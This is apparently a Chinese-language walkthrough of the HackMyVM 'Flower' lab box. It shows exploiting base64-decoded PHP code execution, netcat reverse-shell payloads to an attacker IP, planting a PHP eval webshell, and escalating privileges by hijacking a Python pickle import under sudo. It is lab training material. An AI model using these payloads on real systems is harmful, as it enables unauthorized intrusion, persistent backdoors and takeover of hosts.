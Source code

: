 ```yaml
---
{"dg-publish":true,"tags":["HMV"],"难度":"⭐️⭐️","作者":"sml","permalink":"/24-渗透/HMV/2.Flower/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.840+08:00"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/2.Flower#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/2.Flower#2. webshell\|2. webshell]]
- [[24-渗透/HMV/2.Flower#3. 写后门\|3. 写后门]]
- [[24-渗透/HMV/2.Flower#4. 提权\|4. 提权]]

## 2. webshell

nmap 扫描端口

```Bash
Nmap scan report for 192.168.9.4
Host is up (0.00014s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:18:4F:12 (Oracle VirtualBox virtual NIC)
```
访问网站查看

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.001.png)

点击submit

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.002.png)

选择不同的花会显示出不同的数字

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.003.png)

既然这个数字在变，那我应该从数字入手。抓个包看看

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

这个MSsy就是1+2=3

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

说明这里存在Base64后的代码解析

先测试下

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

直接反弹shell

```Bash
c3lzdGVtKCdiYXNoIHwgbmMgMTkyLjE2OC45LjMgMTEyMicp
#system('bash | nc 192.168.9.3 1122')
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

弹shell成功后但是不给回显 

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.005.png)

直接写文件

先看一下当前目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.006.png)

就在网站目录

## 3. 写后门

```Bash
system('echo "<?php eval(\$\_POST[\"pass\"]);?>" > a.php');
c3lzdGVtKCdlY2hvICI8P3BocCBldmFsKFwkX1BPU1RbXCJwYXNzXCJdKTs/PiIgPiBhLnBocCcpOw==
```
哥斯拉连接

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.007.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.008.png)

## 4. 提权

```Bash
find / -perm -4000 2>/dev/null
```
尝试SUID 提权发现没有什么可以利用的

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.009.png)

这里面可以看到有sudo

我们看下当前用户可以用sudo执行什么文件

```Bash
/tmp >sudo -l

Matching Defaults entries for www-data on flower:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on flower:
    (rose) NOPASSWD: /usr/bin/python3 /home/rose/diary/diary.py
```
看下这个文件

```Python
import pickle

diary = {"November28":"i found a blue viola","December1":"i lost my blue viola"}
p = open('diary.pickle','wb')
pickle.dump(diary,p)
```
分析脚本可以发现这个脚本会引入pickle模块，然后执行代码

这里我们在同级目录新建一个pickle.py文件。这样就会引入我们的这个pickle.py 而不会引入模块库里面的pickle

新建一个pickle.py文件

将反弹命令写进这个文件里面 

```Python
import os;os.system("/bin/bash")
```
然后执行diary.py

```Bash
sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py
```
sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py

```Bash
system('nc -e /bin/sh 192.168.9.3 9999')
```


